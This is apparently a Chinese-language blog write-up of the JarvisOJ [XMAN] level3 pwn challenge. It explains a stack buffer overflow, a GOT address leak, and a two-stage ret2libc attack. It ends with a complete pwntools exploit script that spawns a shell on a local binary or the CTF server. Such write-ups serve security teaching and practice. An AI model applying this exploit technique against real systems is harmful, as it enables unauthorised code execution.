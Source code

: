 ```yaml
---
title: XMAN level3 の Write-Up
date: 2020-05-20 16:46:04
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- XMAN
- ROP
- Stack
---
```

## Introduction

&emsp;&emsp;这是JarvisOJ的PWN题部分[XMAN]level3的Write-Up，题目还是有点难度。题目中涉及到二次覆盖，ret2libc方法的使用，延迟绑定技术的理解和运用等知识点，建议先认真了解一下ROP链和延迟绑定技术原理。可以参考之前写的两篇Blog：[ROP Emporium の ret2win](https://coldwave96.github.io/2020/05/19/ret2win/)和[ret2libc && Lazy Binding](https://coldwave96.github.io/2020/05/19/LazyBinding/)。

<!-- more -->

## Step 1

&emsp;&emsp;程序运行截图：

![](/img/XMAN-level3/XMAN1.png)

&emsp;&emsp;checksec：32位程序，开启DEP保护

![](/img/XMAN-level3/XMAN2.png)

## Step 2

&emsp;&emsp;将程序拖到hopper disassembler中去发现程序中依然存在vulnerable_function函数，但是不再有system函数和‘/bin/sh’的字符串。

![](/img/XMAN-level3/XMAN3.png)

&emsp;&emsp;但是同时题目也给了libc-2.19.so，把该文件也拖到hopper中发现system函数：

![](/img/XMAN-level3/XMAN4.png)

&emsp;&emsp;通过ROPgadget找到libc-2.19.so中’/bin/sh’字符串的位置：

![](/img/XMAN-level3/XMAN5.png)

&emsp;&emsp;参考之前的栈溢出系列以及[ROP Emporium の ret2win](https://coldwave96.github.io/2020/05/19/ret2win/)，现在的思路就是vulnerable_function函数溢出去执行lib-2.19.so文件中的system函数，同时传入参数’/bin/sh’。

&emsp;&emsp;理想中的栈布局为：

![](/img/XMAN-level3/XMAN6.png)

&emsp;&emsp;说是vulnerable_function函数溢出，其实实际上是read函数溢出。所以我们需要将read函数的返回地址覆盖为system函数的入口地址，然后根据函数调用规则，设置一下system函数的返回地址为0xdeadbeef（毫无意义的地址），最后是system函数的参数即‘bin/sh’字符串的地址。

## Step 3

&emsp;&emsp;虽然我们通过libc-2.19.so文件可以得到system函数和’/bin/sh’字符串的偏移地址，但是不知道其在内存中的实际地址，所以我们需要想办法找到system函数和’/bin/sh’字符串在内存中的实际地址。

&emsp;&emsp;假设这样一个情况，我们已经知道test函数是通过延迟绑定（具体情况了解[ret2libc && Lazy Binding](https://coldwave96.github.io/2020/05/19/LazyBinding/)）调用libc.so中的test函数实现的，并且我们知道test函数在内存中的实际地址test_addr及其在libc.so中的偏移地址test_libc。

&emsp;&emsp;此时我们想直接调用一个程序中没但是存在于libc.so中的函数func，那么我们可以得到这样一个逻辑等式：

```
func_addr - func_libc = test_addr - test_libc
```

&emsp;&emsp;即函数在内存中地址和在libc中偏移地址两者的差相等，这个值可以理解为libc文件加载到内存中的基址。

&emsp;&emsp;根据这个题目中的情况，test函数我们选择write函数，替换func函数的位置即可获取system函数和’/bin/sh’字符串在内存中的实际地址。

&emsp;&emsp;首先我们要泄露获取write函数的真实地址，这个可以通过打印write在got表中的地址实现。

&emsp;&emsp;为了输出write_got对应的实际地址，需要构造下面的栈布局：

![](/img/XMAN-level3/XMAN7.png)

&emsp;&emsp;将read函数的返回地址覆盖为write_plt，设置write函数返回地址为vulnerable_function函数入口地址（原因下面会提到）。

&emsp;&emsp;之后是`write(int fd,const void*buf,size_t count)`函数的3个参数：

* 第一个参数是STDIN_FILENO即文件描述符，一般定义为0, 1，2；分别代表stdin(0，标准输入)，stdout(1，标准输出)，stderr(2，标准出错)

* 第二个参数是BUF即写入的字符串

* 第三个参数是每次写入的字节数

&emsp;&emsp;所以本次题目中write函数对应的3个参数分别为1，write_got和4。

&emsp;&emsp;这样我们就可以得到write函数实际地址，且由于每次程序运行我们获取到的write函数的地址是变化的，所以我们需要把信息泄漏和获取服务器控制权限在一次网络连接中完成。

&emsp;&emsp;实现方法是借助于两次缓冲区溢出，第一次缓冲区溢出泄漏write的地址之后，我们让EIP再次跳转到vulnerable_function来执行，这样就可以接着进行第二次缓冲区溢出的过程，此时执行`system("/bin/sh")`即可。

&emsp;&emsp;运行结果：

![](/img/XMAN-level3/XMAN8.png)

## Appendix

&emsp;&emsp;本地运行时优先装在本地系统中的libc库，导致实际装载库并非题目给出的lib-2.19.so文件。这样会造成本地地址错误，无法成功获得shell，本地可以通过添加一个判断模块解决这个问题，远程不存在这个问题。

&emsp;&emsp;EXP代码（已添加对加载的libc文件做判断的模块）：

```Python
# coding: utf-8
from pwn import *

local = 1 # 控制执行环境，0为远程，1为本地
if local:
sh = process('./level3')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
else:
sh = remote('pwn2.jarvisoj.com', 9879)
libc = ELF('./libc-2.19.so')

elf = ELF('./level3')

writeplt = elf.plt['write']
writegot = elf.got['write']
vuln_addr = elf.symbols['vulnerable_function']

writelibc = libc.symbols['write']
syslibc = libc.symbols['system']
shelllibc = libc.search('/bin/sh').next()

payload1 = 'a' * (0x88 + 0x4) + p32(writeplt) + p32(vuln_addr) + p32(1) + p32(writegot) + p32(4)

sh.recvuntil('Input:\n')
sh.sendline(payload1)

write_addr = u32(sh.recv(4))
sys_addr = write_addr - writelibc + syslibc
shell_addr = write_addr - writelibc + shelllibc

payload2 = 'a' * (0x88 + 0x4) + p32(sys_addr) + p32(0xdeadbeef) + p32(shell_addr)

sh.recvuntil('Input:\n')
sh.sendline(payload2)

sh.interactive()
sh.close()
```
